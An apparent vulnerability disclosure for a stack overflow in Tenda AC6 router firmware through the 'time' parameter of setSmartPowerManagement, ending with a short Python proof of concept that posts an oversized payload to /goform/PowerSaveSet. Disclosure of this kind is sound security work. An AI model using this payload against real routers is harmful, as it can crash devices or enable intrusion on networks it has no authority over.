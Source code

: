Tenda AC6 V15.03.05.16 was discovered to contain a stack overflow via the time parameter in the setSmartPowerManagement function.
 
Vulnerability Description
Vendor: Tenda
Product: AC6
Version: V15.03.05.16
Type: Buffer Overflow
Firmware link: https://www.tenda.com.cn/material/show/102661
 
Vulnerability Details
The function "setSmartPowerManagement" retrieves the parameter "time" using "sub_2B7C4", the value of "time" is formatted using the sscanf function with the format "%[^:]:%[^-]-%[^:]:%s". 
This greedy matching mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the sizes of "v10", "v9", "v8", or "v7".
 ![image](https://github.com/user-attachments/assets/153bb4ab-4d72-4f3d-8366-cc270673bced)

Recurring vulnerabilities and POC
import requests
ip = '192.168.2.3'
url = f'http://{ip}/goform/PowerSaveSet'
payload = {
    "time": '1:00-1:'+'1'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
![image](https://github.com/user-attachments/assets/db2201bd-4946-4524-b951-1ce9cc19617c)
